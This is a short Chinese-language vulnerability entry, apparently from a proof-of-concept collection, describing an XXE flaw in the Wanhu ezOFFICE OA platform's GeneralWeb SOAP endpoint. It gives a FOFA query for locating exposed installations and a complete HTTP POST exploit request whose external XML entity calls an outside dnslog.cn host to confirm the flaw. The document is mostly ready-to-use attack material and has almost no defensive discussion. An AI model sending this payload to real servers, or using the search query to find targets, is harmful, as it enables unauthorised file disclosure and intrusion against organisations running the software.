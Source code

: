 # 万户OA系统接口GeneralWeb存在XXE漏洞

万户OA系统接口GeneralWeb存在XXE漏洞，允许攻击者利用XML解析器处理外部实体，从而访问本地文件或进行其他恶意操作，可能导致敏感信息泄露和系统被攻击。

## fofa

```javascript
app="万户ezOFFICE协同管理平台"
```

## poc

```javascript
POST /defaultroot/xfservices/./GeneralWeb HTTP/1.1
Host: 
User-Agent: Moziilla/5.0 (Linux; U; Android 2.3.6; en-us; Nexus S Build/GRK39F) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1
Content-Type: text/xml;charset=UTF-8
SOAPAction: 
Content-Length: 457

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:gen="http://com.whir.service/GeneralWeb">
  <soapenv:Body>
    <gen:OAManager>
      <gen:input>
        &lt;?xml version="1.0" encoding="UTF-8"?&gt;
        &lt;!DOCTYPE root [
        &lt;!ENTITY x SYSTEM "http://123.6x9ryk.dnslog.cn"&gt;]&gt;
        &lt;root&gt;&amp;x;&lt;/root&gt;
      </gen:input>
    </gen:OAManager>
  </soapenv:Body>
</soapenv:Envelope>
```



## 漏洞来源

- https://forum.butian.net/share/3784
